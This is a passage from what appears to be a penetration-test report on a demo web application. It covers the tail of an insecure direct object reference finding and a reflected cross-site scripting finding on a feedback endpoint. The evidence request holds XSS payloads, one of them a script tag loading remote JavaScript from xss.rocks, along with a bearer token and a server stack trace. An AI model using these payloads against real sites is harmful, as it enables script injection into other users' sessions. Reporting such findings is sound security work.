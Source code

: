 3. Capture the request for updating an application as the first user and replace the application ID in the request with the application ID of the second user’s application.

4. Submit the modified request. Observe that changes made by the first user are applied to the second user’s application, confirming unauthorized modification capability.



#### Reflected Cross-Site Scripting (XSS) Leading to Denial of Service (DoS)

##### Descritpion
A reflected Cross-Site Scripting (XSS) vulnerability was identified in the /feedback endpoint, which allows attackers to inject arbitrary JavaScript code into the application. When an attacker submits feedback containing malicious script tags, these are reflected back in the response, causing the admin interface to break. During testing, a malicious payload was submitted in the feedback field, which resulted in a 500 Internal Server Error or JSON parsing error. The error occurred when the admin tried to view the feedback data, indicating that the injected script corrupted the JSON response, effectively causing a Denial of Service (DoS) for administrators attempting to view feedback entries.

##### Severity
High

##### Impact in Business Context
This vulnerability can disrupt administrative operations by causing a denial of service on the feedback interface. Since administrators are responsible for reviewing feedback that could influence security decisions, the ability to inject arbitrary scripts and cause errors in the admin view directly impacts their ability to review critical user feedback. This could result in delays in responding to application vulnerabilities, missed security threats, and a deterioration of operational trust in the system. Additionally, this flaw might be exploited for further attacks, potentially leading to more severe consequences like remote code execution in the future.

##### Evidence
- Request
    ```json
    POST /v1/feedback HTTP/1.1
    Host: 192.168.72.128:3000
    Content-Length: 1278
    Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiI2MWY3YTMzOTkyYWU4MmU5MDNjYTVmM2EiLCJpYXQiOjE3MzA5OTcyODksImV4cCI6NDEwMjQ0NDgwMCwidHlwZSI6ImFjY2VzcyJ9.dTMDHIyLoek1Jlj7eiRcye38M5TMrPclxRulsiCgQBE
    Content-Type: application/json

    {
        "message":<SCRIPT/XSS SRC='http://xss.rocks/xss.js'></SCRIPT>,
        "browserDataJSON":"{\"vendorSub\":\"\\\"\\\"\",\"productSub\":\"\\\"20030107\\\"\",\"vendor\":\"\\\"Google Inc.\\\"\",\"maxTouchPoints\":\"10\",\"scheduling\":\"{}\",\"userActivation\":\"{}\",\"doNotTrack\":\"null\",\"geolocation\":\"{}\",\"connection\":\"{}\",\"plugins\":\"{\\\"0\\\":{\\\"0\\\":{}},\\\"1\\\":{\\\"0\\\":{}}}\",\"mimeTypes\":\"{\\\"0\\\":{},\\\"1\\\":{}}\",\"pdfViewerEnabled\":\"true\",\"webkitTemporaryStorage\":\"{}\",\"webkitPersistentStorage\":\"{}\",\"windowControlsOverlay\":\"{}\",\"hardwareConcurrency\":\"8\",\"cookieEnabled\":\"true\",\"appCodeName\":\"\\\"Mozilla\\\"\",\"appName\":\"\\\"Netscape\\\"\",\"appVersion\":\"\\\"5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"platform\":\"\\\"Win32\\\"\",\"product\":\"\\\"Gecko\\\"\",\"userAgent\":\"\\\"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"language\":\"\\\"en-US\\\"\",\"languages\":\"[\\\"en-US\\\"]\",\"onLine\":\"true\",\"webdriver\":\"false\",\"ink\":\"{}\",\"mediaCapabilities\":\"{}\",\"mediaSession\":\"{}\",\"permissions\":\"{<IMG SRC=# onmouseover=\"alert('xxs')\">}\"}"
    }
    ```

- Response
    ```json
    {
        "code":500,
        "message":"Internal Server Error",
        "stack":"SyntaxError: Unexpected token < in JSON at position 11\n    at JSON.parse (<anonymous>)\n    at parse (/home/silver/demoapp/demoapp-backend/node_modules/body-parser/lib/types/json.js:89:19)\n    at /home/silver/demoapp/demoapp-backend/node_modules/body-parser/lib/read.js:121:18\n    at invokeCallback (/home/silver/demoapp/demoapp-backend/node_modules/raw-body/index.js:224:16)\n    at done (/home/silver/demoapp/demoapp-backend/node_modules/raw-body/index.js:213:7)\n    at IncomingMessage.onEnd (/home/silver/demoapp/demoapp-backend/node_modules/raw-body/index.js:273:7)\n    at IncomingMessage.emit (events.js:203:15)\n    at endReadableNT (_stream_readable.js:1145:12)\n    at process._tickCallback (internal/process/next_tick.js:63:19)"
    }
    ```

